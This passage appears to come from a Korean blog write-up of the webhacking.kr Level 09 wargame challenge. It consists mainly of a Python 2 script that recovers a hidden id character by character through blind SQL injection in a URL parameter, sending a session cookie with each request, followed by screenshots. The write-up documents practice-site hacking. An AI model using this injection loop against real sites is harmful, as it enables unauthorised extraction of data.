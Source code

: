 ```python
from urllib2 import *
import urllib2, re, string


SESSION = "2b34290ec5cdc07d83045e392176a118"
password = ""

code = string.ascii_letters
for i in range(1,12):
    for j in code:
        search = "if(substr(id,"+str(i)+",1)like("+hex(ord(j))+"),3,0)"
        req = urllib2.Request("http://webhacking.kr/challenge/web/web-09/?no="+search)
        req.add_header("Cookie","PHPSESSID=%s" %SESSION)
        res = urllib2.urlopen(req).read()

        print "Parsing : ?no=%s" % search

        if "Secret" in res:
            password += j
            print "[+] Find password : %s" % password
            break;
print "[*] Parsing Finish! Password : %s" % password
```



<img src="http://eliez3r.synology.me/assets/blog/writeup/webkr/Level 09/image-20180731143333354.png" width="500px">



이제 찾은 id값을 넣어주자.

<img src="http://eliez3r.synology.me/assets/blog/writeup/webkr/Level 09/image-20180731143630522.png" width="300px">



<img src="http://eliez3r.synology.me/assets/blog/writeup/webkr/Level 09/image-20180731143521309.png" width="400px">



